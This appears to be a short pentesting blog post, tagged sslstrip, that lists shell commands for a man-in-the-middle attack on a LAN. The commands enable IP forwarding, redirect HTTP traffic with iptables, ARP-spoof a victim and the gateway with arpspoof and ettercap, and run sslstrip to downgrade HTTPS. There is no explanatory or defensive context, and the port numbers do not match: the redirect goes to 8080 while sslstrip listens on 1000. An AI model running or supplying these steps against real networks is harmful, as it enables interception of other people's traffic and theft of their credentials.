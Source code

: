 Title: ssltrip2
Date: 2015-09-4 14:05
Modified: 2015-09-4 14:05
Category: Pentesting
Tags: sslstrip
Slug: ssltrip2
Authors: procamora
Summary:

`sysctl -w net.ipv4.ip_forward=1`


`cat /proc/sys/net/ipv4/ip_forward`


`echo 1 > /proc/sys/net/ipv4/ip_forward`


`iptables -t nat -A PREROUTING -i eth0 -p tcp --destination-port 80 -j REDIRECT --to-port 8080`


######opcional
`arpspoof -i eth0 -t 192.168.1.2 192.168.1.1`


######otra pestaña
`python sslstrip.py -l 1000`


######otra pestaña
`ettercap -Tq -i eth0` o `ettercap -T -q -i eth0 -M arp // //`
